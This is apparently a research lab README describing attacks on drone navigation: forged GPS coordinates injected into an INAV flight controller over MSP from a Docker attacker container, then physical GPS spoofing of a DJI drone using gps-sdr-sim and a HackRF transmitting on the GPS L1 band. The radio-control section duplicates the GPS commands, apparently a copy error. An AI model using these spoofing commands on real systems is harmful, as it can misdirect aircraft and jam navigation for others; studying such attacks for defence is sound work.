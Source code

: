 ## After the overall configuration we move on to the security of the enviroment

## 1. Software Attack

The first step is to change the INAV gps configuration

## Modify Inav-Configurator

In step 18, opt for "Enable MSP" and proceed to save and restart. This action is illustrated in the following screenshot:

![Step 18: Enable MSP](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/attack1.png)

Following the activation of MSP, proceed to enable GPS for navigation and telemetry in the subsequent step. Configure Galileo settings and switch the protocol to MSP. Conclude by saving and restarting the system. This process is visually represented in the following screenshot:

![GPS Configuration: Enable GPS, Set Up Galileo, Change Protocol](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/attack2.png)

Once the GPS configuration is completed, navigate to the "Receiver" tab. Adjust the receiver mode to MSP, then click 'Save and Restart' to implement the changes seamlessly.
![](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/screen/setrc.png)

## Launching docker exec for the Attacker container in a dedicated terminal

```
   1. docker exec -ti attack bash

```

![Container attack](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/attack_terminale_3.png)

## Gps terminal

After the complete setting of Inav and the attacker container we return to the gps terminal and run this command for start the mission

```
1. python3 missioneMSP.py  --ip 172.18.0.2 --port 5762 --file gps_coordinate_missione.txt

```

The result of INAV receiving of the mission
![Screen missione coordinate MSP](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/CoordinateGPS_misisone_MSP.png)

## Attacker terminal for gps attack

Move to the attacker terminal and launch this command to complete the attack

```
1. python3 attackMSP.py --ip 172.18.0.2 --port 5761 --file Coordinate_Attacco.txt

```

The result of the INAV receiving the attack coordinates at the same time as it is receiving the mission coordinates to be carried out

![Screen missione coordinate Attacco](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Coordinate_attaccante.png)

## RC coomand terminal

After the complete setting of Inav and the attacker container we return to the gps terminal and run this command for start the mission

```
1. python3 missioneMSP.py  --ip 172.18.0.2 --port 5762 --file gps_coordinate_missione.txt

```

The result of INAV receiving command
![Screen missione coordinate MSP](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/CoordinateGPS_misisone_MSP.png)

## Attacker terminal for radio command attack

Move to the attacker terminal and launch this command to complete the attack

```
1. python3 attackMSP.py --ip 172.18.0.2 --port 5761 --file Coordinate_Attacco.txt

```

The result of the INAV receiving the attack coordinates at the same time as it is receiving the mission coordinates to be carried out

![Screen missione coordinate Attacco](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Coordinate_attaccante.png)

## 2. Physical Attack

After carrying out a software attack, to see if it was possible to carry out the same attack on a physical level, we equipped ourselves with a dji drone and a HackRF One

## Setting up the Environment

### Physical Instruments

The physical instruments useful for the complete set are a HackRF and a dji drone in this case a Mavic mini 2

![Mavic mini 2](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/mavicmini2-removeb.png)
![HackRF ONE](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/HAckRFOne.jpg)

### Software Istruments

The relevant software tool to carry out the attack is gps-sdr-sim available at the following link :https://github.com/osqzss/gps-sdr-sim

```
1. The first step is to download the RINEX navigation files for GPS ephemerides.
It is necessary to download the latest file directly from the NASA website: https://cddis.nasa.gov/archive/gnss/data/daily/.

```

![Rinix1](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix1.png)
![Rinix2](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix2.png)
![Rinix3](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix3.png)
![Rinix4](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix4.png)
![Rinix5](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Rinix5.png)

After downloading the file, copy it into the gps-sdr-sim directory (which has been previously compiled and set according to the guide in the previous link) and run the following command to create the .C8 file for the coordinates

```
 ./gps-sdr-sim -e brdc3170.23n -s 2600000 -b 8 -o TestCina.C8 -l 30.293650, 120.161420,100 -d 10

```

After creating the file, you need to install the hrfs software by following the following linkk guide :https://hackrf.readthedocs.io/en/latest/installing_hackrf_software.html

When installation is complete, connect the whole set as in the photo:

![setComplite](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/set_complite.png)

Now, after connecting everything, you need to move to the gps-sdr-sim directory and run the following command to start the attack

```
 ./hackrf_transfer -t Testcina.C8 -f 1575420000 -s 2600000 -a 0

```

Running scripts

![Running scripts](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/runnung_script.png)

### Results

![Risultato1](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Risultato1.png)

![Risultato2](https://github.com/NS-unina/GCAP_Mod/blob/main/INAV_Flight_controller/Screen_attacco/Risultato2.jpg)
